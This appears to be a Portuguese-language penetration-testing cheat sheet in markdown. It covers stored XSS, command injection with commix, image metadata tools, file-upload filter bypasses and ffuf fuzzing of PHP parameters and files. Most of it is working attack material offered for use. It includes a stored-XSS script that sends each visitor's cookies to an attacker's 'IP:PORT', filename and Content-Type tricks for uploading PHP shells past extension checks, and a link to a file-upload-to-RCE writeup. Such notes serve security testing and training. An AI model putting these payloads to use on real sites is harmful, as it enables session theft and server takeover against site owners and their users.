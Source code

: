 ### stored
captura o cookie de quem acessou a página com stored XSS e envia para o nosso servidor
```
<script> new Image().src="http://IP:PORT/?="+document.cookie;</script>
```


## command injection

commix
```
commix --url URL --data="site=[URL]"
```

## metadados de imagem
```
exiv2 [image.png]

exiftool [image.png]
```
## upload image
imagetragick

**bypass de file upload**
- https://sagarsajeev.medium.com/file-upload-bypass-to-rce-76991b47ad8f

renomear o arquivo:
```
payload.pHp
payload.pdf.php
payload.p.phphp # em alguns casos remove a string php, restando payload.php
```



em alguns casos, basta trocar o Content-type para dar bypass na extensão permitida:
no exemplo abaixo o site permitia apenas arquivos .pdf
```
# antes
Content-Type: application/x-php
# depois
Content-Type: application/pdf
```

## php 

bruteforce de parametros
```
ffuf -u "URL/banners.php?FUZZ=1" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
```

fuzzing de arquivos .php
```
ffuf -u "URL/FUZZ.php" -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
